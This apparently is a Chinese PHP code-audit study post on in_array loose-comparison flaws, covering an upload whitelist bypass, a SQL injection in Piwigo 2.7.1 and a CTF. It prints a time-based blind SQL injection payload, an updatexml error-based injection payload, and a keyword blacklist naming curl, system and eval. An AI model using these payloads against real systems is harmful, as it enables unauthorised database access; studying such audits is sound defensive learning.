 ```yaml
---
title: "In_array函数缺陷"
date: 2020-02-06T17:47:24+08:00
draft: flase
tags: [代码审计]
categories: []
comment: true
---
```

In_array函数缺陷
<!--more-->

# php代码审计学习in_array函数缺陷

##in_array函数缺陷

### Wish List

- Code

```
class Challenge {
  const UPLOAD_DIRECTORY = './solutions/';
  private $file;
  private $whitelist;

  public function __construct($file) {
    $this->file = $file;
    $this->whitelist = range(1, 24);
  }

  public function __destruct() {
    if (in_array($this->file['name'], $this->whitelist)) {
      move_uploaded_file(
        $this->file['tmp_name'],
        self::UPLOAD_DIRECTORY . $this->file['name']
      );
    }
  }
}

$challenge = new Challenge($_FILES['solution']);
```

- 代码理解

**代码为一个文件上传的代码，如果文件名存在于1-24中，则上传文件**

- in_array函数

```
in_array
检查数组中是否存在某个值
```

- 题解

**php弱类型比较时，6php会转换为6，6在1-24中间，所以可以进行上传**

### piwigo2.7.1实例分析

- 环境搭建

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200308143432.png)

#### 漏洞分析

- 于picture.php:332中

```
case 'rate' :
    {
      include_once(PHPWG_ROOT_PATH.'include/functions_rate.inc.php');
      rate_picture($page['image_id'], $_POST['rate']);
      redirect($url_self);
    }
```

**当case为rate时，将变量rate和变量image_id传入functions_rate.inc.php文件中的rate_picture函数**

- include/functions_rate.inc.php:38

```
or !in_array($rate, $conf['rate_items']))
```

**查找变量rate是否存在于$conf['rate_items']当中**

```
$conf['rate_items']
```
![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200308145619.png)

- 直接将rate进行了拼接

```
$query = '
INSERT
  INTO '.RATE_TABLE.'
  (user_id,anonymous_id,element_id,rate,date)
  VALUES
  ('
    .$user['id'].','
    .'\''.$anonymous_id.'\','
    .$image_id.','
    .$rate
    .',NOW())
;';
  pwg_query($query);

  return update_rating_score($image_id);
}
$query = '
INSERT
  INTO '.RATE_TABLE.'
  (user_id,anonymous_id,element_id,rate,date)
  VALUES
  ('
    .$user['id'].','
    .'\''.$anonymous_id.'\','
    .$image_id.','
    .$rate
    .',NOW())
;';
  pwg_query($query);

  return update_rating_score($image_id);
}
```

**只要rate为array(0,1,2,3,4,5)便可以进行绕过，而in_array第三位未设置为true**

- payload

```
1,1 and if(ascii(substr((select database()),1,1))=112,1,sleep(3)));# 
```

- sqlmap

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200308174418.png)

### CTF 

- 环境搭建

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200308181630.png)

- stop_hack函数

```
function stop_hack($value){
    $pattern = "insert|delete|or|concat|concat_ws|group_concat|join|floor|\/\*|\*|\.\.\/|\.\/|union|into|load_file|outfile|dumpfile|sub|hex|file_put_contents|fwrite|curl|system|eval";
    $back_list = explode("|",$pattern);
    foreach($back_list as $hack){
        if(preg_match("/$hack/i", $value))
            die("$hack detected!");
    }
    return $value;
}
```

**stop_hack用来过滤一些危险函数**

- 注入

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200308182616.png)

**获取get的ID，通过stop_hack进行过滤并拼接到sql语句中进行查询**

- 报错注入payload

```
and (select updatexml(1,make_set(3,'~',(select flag from flag)),1))
```
![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200308183821.png)

- 参考

```
https://github.com/hongriSec/PHP-Audit-Labs/blob/master/PHP-Audit-Labs%E9%A2%98%E8%A7%A3/Day1-4/files/README.md
https://xz.aliyun.com/t/2160
```
